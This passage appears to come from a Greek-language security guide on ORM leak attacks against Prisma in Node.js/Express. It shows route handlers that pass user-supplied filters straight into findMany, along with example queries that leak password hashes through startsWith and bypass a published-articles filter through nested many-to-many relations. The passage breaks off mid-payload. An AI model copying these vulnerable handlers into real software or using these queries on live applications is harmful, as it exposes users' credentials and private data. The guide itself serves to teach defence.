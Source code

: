 ```json

// Response
[
{
"createdBy": {
"password": "super secret passphrase"
}
},
...
]
```
* **Πλήρης έλεγχος της ρήτρας where**:

Ας ρίξουμε μια ματιά σε αυτό όπου η επίθεση μπορεί να ελέγξει τη ρήτρα `where`:

<pre class="language-javascript"><code class="lang-javascript">app.get('/articles', async (req, res) => {
try {
const posts = await prisma.article.findMany({
<strong>            where: req.query.filter as any // Ευάλωτο σε ORM Leaks
</strong>        })
res.json(posts);
} catch (error) {
res.json([]);
}
});
</code></pre>

Είναι δυνατόν να φιλτράρουμε τον κωδικό πρόσβασης των χρηστών απευθείας όπως:
```javascript
await prisma.article.findMany({
where: {
createdBy: {
password: {
startsWith: "pas"
}
}
}
})
```
{% hint style="danger" %}
Χρησιμοποιώντας λειτουργίες όπως το `startsWith`, είναι δυνατόν να διαρρεύσει πληροφορία.&#x20;
{% endhint %}

* **Παράκαμψη φιλτραρίσματος πολλαπλών σχέσεων:**&#x20;
```javascript
app.post('/articles', async (req, res) => {
try {
const query = req.body.query;
query.published = true;
const posts = await prisma.article.findMany({ where: query })
res.json(posts);
} catch (error) {
res.json([]);
}
});
```
Είναι δυνατόν να διαρρεύσουν μη δημοσιευμένα άρθρα επιστρέφοντας στις πολλές-προς-πολλές σχέσεις μεταξύ `Category` -\[\*..\*]-> `Article`:
```json
{
"query": {
"categories": {
"some": {
"articles": {
"some": {
```